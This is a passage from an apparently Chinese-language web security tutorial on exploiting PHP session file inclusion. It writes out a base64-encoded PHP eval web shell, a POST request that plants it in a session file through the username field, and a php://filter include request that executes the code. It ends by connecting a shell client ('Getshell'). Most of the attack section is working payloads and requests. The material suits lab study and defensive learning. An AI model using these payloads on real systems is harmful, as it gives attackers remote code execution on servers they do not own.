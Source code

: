 base64编码

```
cWZ0bXFmdG1xZnRtcWZ0bXFmdG1xZnRtcWZ0bXFmdG1xZnRtcWZ0bXFmdG1xZnRtPD9waHAgZXZhbCgkX1BPU1RbJ210ZnEnXSk7Pz4=
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01a6447b9047326306.png)

编码测长

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t011c8641d113086382.png)

结果中可以看到payload满足长度的需求。

<a class="reference-link" name="Bypass%E6%94%BB%E5%87%BB%E5%88%A9%E7%94%A8"></a>**Bypass攻击利用**

再次构造payload传入恶意session

```
http://192.33.6.145/FI/session/session.php

POST：
username=qftmqftmqftmqftmqftmqftmqftmqftmqftmqftmqftmqftm&lt;?php eval($_POST['mtfq']);?&gt;
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01fed54ce904a3713e.png)

然后构造payload包含向服务器生成的恶意session

```
http://192.33.6.145/FI/session/index.php?file=php://filter/convert.base64-decode/resource=/var/lib/php/sessions/sess_7qefqgu07pluu38m45isiesq3s

POST：
mtfq=phpinfo();
```

[![](https://p1.ssl.qhimg.com/t017da11e3fb0578e4b.png)](https://p1.ssl.qhimg.com/t017da11e3fb0578e4b.png)

从相应结果中可以看到，这种模式下`session.serialize_handler = php_serialize`，我们构造的payload也成功的解析了，同样达到了预期的目的。

<a class="reference-link" name="Getshell"></a>**Getshell**

尝试蚁剑连接我们session中传入的恶意代码

[![](https://p3.ssl.qhimg.com/t014c5cf2c7438db9d8.png)](https://p3.ssl.qhimg.com/t014c5cf2c7438db9d8.png)



## No session_start()
